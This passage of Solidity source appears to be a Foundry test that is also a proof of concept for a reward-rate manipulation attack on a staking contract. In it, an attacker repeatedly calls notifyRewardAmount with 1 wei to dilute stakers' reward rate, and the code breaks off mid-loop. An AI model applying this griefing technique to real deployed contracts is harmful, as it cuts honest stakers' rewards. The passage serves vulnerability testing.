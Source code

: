 ```solidity
        
        // Fund users
        stakingToken.transfer(alice, INITIAL_STAKE_AMOUNT);
        stakingToken.transfer(bob, INITIAL_STAKE_AMOUNT);
        stakingToken.transfer(charlie, INITIAL_STAKE_AMOUNT);
        
        rewardToken.transfer(admin, LEGITIMATE_REWARD_AMOUNT * 2);
        rewardToken.transfer(attacker, MINIMUM_ATTACK_AMOUNT * 10);
        
        vm.stopPrank();
        
        // Users approve and stake
        _stakeTokens(alice);
        _stakeTokens(bob);
        _stakeTokens(charlie);
    }
    
    function _stakeTokens(address user) internal {
        vm.startPrank(user);
        stakingToken.approve(address(staking), INITIAL_STAKE_AMOUNT);
        staking.deposit(INITIAL_STAKE_AMOUNT, user);
        vm.stopPrank();
    }
    
    function _advanceTime(uint256 seconds_) internal {
        vm.warp(block.timestamp + seconds_);
        vm.roll(block.number + seconds_ / 12); // Assuming ~12 sec block time
    }

    function testRewardRateManipulation() public {
        // Admin adds legitimate rewards
        vm.startPrank(admin);
        address[] memory tokens = new address[](1);
        tokens[0] = address(rewardToken);
        
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = LEGITIMATE_REWARD_AMOUNT;
        
        rewardToken.approve(address(staking), LEGITIMATE_REWARD_AMOUNT);
        staking.notifyRewardAmount(tokens, amounts);
        vm.stopPrank();
        
        // Record original values
        uint256 originalRate = staking.getRewardRate(address(rewardToken));
        uint256 originalPeriodFinish = staking.getRewardPeriodFinish(address(rewardToken));
        
        emit log_named_uint("Original reward rate", originalRate);
        emit log_named_uint("Original period finish", originalPeriodFinish);
        
        // Advance 1 day into reward period
        _advanceTime(1 days);
        
        // Attacker repeatedly adds minimal amounts to diminish rate
        vm.startPrank(attacker);
        tokens[0] = address(rewardToken);
        amounts[0] = MINIMUM_ATTACK_AMOUNT; // 1 wei
        rewardToken.approve(address(staking), MINIMUM_ATTACK_AMOUNT * 5);
        
        // Perform 5 sequential attacks
        for (uint i = 0; i < 5; i++) {
            staking.notifyRewardAmount(tokens, amounts);
            
            uint256 newRate = staking.getRewardRate(address(rewardToken));
```